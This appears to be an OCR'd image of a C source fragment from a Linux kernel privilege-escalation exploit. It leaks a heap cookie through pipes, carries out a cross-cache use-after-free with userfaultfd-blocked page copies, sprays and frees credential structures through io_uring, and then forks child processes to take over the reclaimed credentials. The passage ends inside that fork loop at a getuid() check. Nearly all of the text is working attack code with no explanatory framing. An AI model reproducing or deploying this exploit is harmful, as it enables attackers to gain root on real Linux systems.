 ```c 
                fatal("read() from pipe failed");

            uint64_t potential_cookie = chunk[0];

            printf("%.16lx\n", potential_cookie);
            if (!cookie && potential_cookie) {
                cookie = potential_cookie;
                cookie_idx = i;
            }
        }

        if (cookie) {
            break;
        }
    }

    if (cookie) {

        /* If we didn't land on a cred boundary, bail out. We'd crash anyway. */
        if ((cookie_idx * 96) % 192 != 0) {
            /* make the memcpy() just write into our controlled pipe page again, so no harm is done. */
            ufd_unblock_page_copy((void *)blockers[1].arg.pagefault.address, scratch, &copied_size);
            fatal("UaF object was not aligned to 192 bytes. Try again..");
        }

        /* Before releasing the page again, we empty the cred freelist 
         * so any new cred allocations will get a new slab */
        alloc_n_creds(uring_cred_dumps[0], 0x4000);

        /* Release page*/
        close(pipes[pipe_idx].read);
        close(pipes[pipe_idx].write);
    } else {
        /* this error path is a bit problematic, we don't know where the write went.. 
         * still, it's better to get the other write over with now.
        */
        ufd_unblock_page_copy((void *)blockers[1].arg.pagefault.address, scratch, &copied_size);
        fatal("cross-cache failed. Try again..");
    }

    printf("pipe %ld, offset +0x%.4lx: cookie %.16lx\n", pipe_idx, cookie_idx * 96, cookie);

    /* Pre-allocate struct creds to reclaim the page. 
     * Free them immediately afterwards so we can reallocate them for tasks. */
    alloc_n_creds(uring_cred_dumps[1], 32);
    close(uring_cred_dumps[1]);

    /* wait for rcu to finish so creds are actually freed. */
    usleep(200000);

    struct pipe_pair child_comm;
    pipe(child_comm.__raw);

    /* realloc creds, now belong to child tasks */
    for (size_t i = 0; i < 32 * 2; i++) {
        
        if (fork())
            continue;
        
        sleep(2);
        uid_t uid = getuid();
```